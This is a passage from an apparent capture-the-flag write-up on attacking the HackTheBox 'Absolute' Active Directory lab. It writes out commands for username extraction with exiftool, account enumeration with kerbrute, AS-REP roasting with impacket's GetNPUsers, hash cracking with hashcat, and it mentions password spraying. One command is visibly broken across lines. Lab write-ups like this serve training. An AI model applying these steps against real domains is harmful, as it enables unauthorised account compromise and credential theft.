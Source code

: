 ![](https://i.imgur.com/Y56OqgJ.png)

![](https://i.imgur.com/nng4FjW.png)

We can try grabbing the usernames from all images using exiftool with oneliner

```bash
exiftool *.jpg | grep Author | awk {'print $3,$4'}
```

![](https://i.imgur.com/k6NlwGy.png)

We have usernames but we need to figure out which format is used for usernames on the domain like the username could be in format of firstname.lastname, first initial.lastname and so on for that I used a tool called `Username Anarchy`

```bash
username-anarchy -i ./names.txt -f firstlast,first.last
```

![](https://i.imgur.com/y1CdnG7.png)

Now that have the usernames in format, we can use `kerbrute` to see which usernames exist in domain if we have generated the names in a proper format

```bash
kerbrute userenum ./generated_names.txt -d absolute.htb --dc 10.10.11.181 
```

![](https://i.imgur.com/7bqxyBf.png)

From the output we can see kerbrute tried to authenticate and it found `d.klay` doesn't have pre-authentication enabled which led to AS-REP roasting, before we go cracking this hash, `hashcat` doesn't support cracking etype 18 so we need to use impacket's `GetNPUsers`

```bash
python3 GetNPUsers.py absolute.htb/uwu@dc.absolute.htb -
erated_names.txt -request
```

![](https://i.imgur.com/mVaCYRX.png)

This hash can now be cracked with hashcat as it supports etype 23

```bash
hashcat -a 0 -m 18200 ./hash.txt /opt/SecLists/Passwords/rockyou.txt --force
```

![](https://i.imgur.com/yFa7eLp.png)

I tried using the credentials on rpc and smb but got an account restriction error

![](https://i.imgur.com/kFWruj9.png)

Credentials didn't worked on ldap as well, I tried password spraying which should that none of the valid usernames are allowed on smb
